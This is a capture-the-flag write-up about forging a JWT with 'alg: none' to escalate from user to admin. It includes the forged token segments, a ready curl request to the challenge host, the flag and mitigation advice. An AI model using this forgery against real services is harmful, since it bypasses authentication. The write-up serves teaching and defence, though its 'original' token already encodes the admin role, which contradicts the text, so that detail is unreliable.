 # 🔐 None Shall Pass – JWT alg: none Token Forgery

**Category:** Web Security\
**Points:** 200

---

### 🧠 Challenge Summary

Deep inside Juche Jaguar’s intranet runs a custom token-based gateway protecting their most sensitive files at `/secret`. We got access to a low-privileged user account (`agent:spudpotato`). The challenge was to obtain a token and escalate privileges using a vulnerability in how JWTs were handled.

---

### 🎯 Objective

Exploit a vulnerable JWT implementation to escalate privileges from `user` to `admin` and access the `/secret` endpoint.

```
http://34.85.163.182:8080/secret
```

---

### 🛠️ Tools & Techniques Used

- [jwt.io](https://jwt.io) (for decoding and inspecting JWTs)
- Web browser (initial login)
- Manual Base64 crafting
- `curl` for HTTP request
- Token manipulation (`alg: none` bypass)

---

### 🔍 Recon – Analyzing the JWT

After logging in with:

```
Username: agent
Password: spudpotato
```

A JWT appeared at the bottom of the login screen:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.<<signature>>
```

We pasted it into [jwt.io](https://jwt.io) to decode:

#### Header:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

#### Payload:

```json
{
  "user": "agent",
  "role": "user"
}
```

The use of `HS256` implied HMAC signing and suggested a possible `alg: none` vulnerability.

---

### 🧪 Exploitation – `alg: none` Forged JWT

Some misconfigured libraries accept tokens using `alg: none`, skipping signature validation entirely.

#### 1. Forge JWT Header:

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

→ Base64: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`

#### 2. Forge JWT Payload:

```json
{
  "user": "agent",
  "role": "admin"
}
```

→ Base64: `eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ`

#### 3. Combine:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.
```

(Note: ends with a period to represent no signature)

---

### 🚀 Final Exploit Request

```bash
curl http://34.85.163.182:8080/secret \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ."
```

---

### 🏁 Flag

```
C1{n0n3_4lg0_byp4ss}
```

---

### 🔒 Mitigation

- Reject tokens with `alg: none`
- Always validate the JWT algorithm against a whitelist (e.g., `HS256`, `RS256`)
- Use maintained JWT libraries with secure defaults

---

